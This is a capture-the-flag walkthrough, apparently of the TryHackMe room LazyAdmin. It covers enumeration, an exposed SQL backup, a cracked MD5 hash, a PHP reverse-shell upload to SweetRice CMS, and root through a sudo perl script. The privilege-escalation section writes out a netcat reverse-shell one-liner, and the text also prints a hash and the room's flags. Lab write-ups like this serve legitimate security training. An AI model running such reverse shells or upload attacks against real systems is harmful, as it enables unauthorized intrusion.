LazyAdmin
Enumeration
nmap -sV -T4 -A 10.10.3.19

We have ports 80 and 22 open. Navigating to 10.10.3.19:80 gives us a default Apache landing page.

Let's brute force subdirectories with DirBuster to see if there's anything hiding.
DirBuster
dirbuster

DirBuster found a few things. Going through them one at a time reveals the site is running SweetRice CMS.


ExploitDB
A quick search shows there is an ExploitDB page for SweetRice — not a good sign for them, but great for us.

One of the exploits points to an exposed SQL backup. Let's navigate to that subdirectory.

Found it. Opening the link downloads it automatically.
SQL Backup

Looking closely at the backup file, we find a password hash and a username.
USER: manager HASH: 42f749ade7f9e195bf475f37a44cafcb
We can crack this MD5 hash using CrackStation.

What a strong password. Let's see where we can use these credentials.
Login and Reverse Shell
Continuing through the DirBuster results turns up one more subdirectory we haven't explored yet.

Navigating to this index.php page brings us to the SweetRice login.

The credentials work. Inside, I head straight to the media center — similar to a WordPress file upload vulnerability.

Since file uploads are allowed, we can upload a reverse-shell.php5 and catch the connection with a netcat listener.

Once the listener is ready, we click the file in the SweetRice media directory to trigger it.

www-data
Shell caught. Traversing to the home directory reveals a user called itguy, and inside we find the first flag.

THM{63e5bce9271952aad1113b6f1ac28a07}
Privilege Escalation — Perl
Running sudo -l shows what permissions we have.

We can run perl as sudo to execute a file called backup.pl. Let's look at it.

It calls /etc/copy.sh, which is a root shell spawner using a netcat reverse shell. The current IP in the script isn't ours, but we can edit it.
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
nano isn't available to www-data, so we use echo to overwrite the file with our IP.

With another netcat listener ready, we run backup.pl via sudo.



Root

THM{6637f41d0177b6f37cb20d775124699f}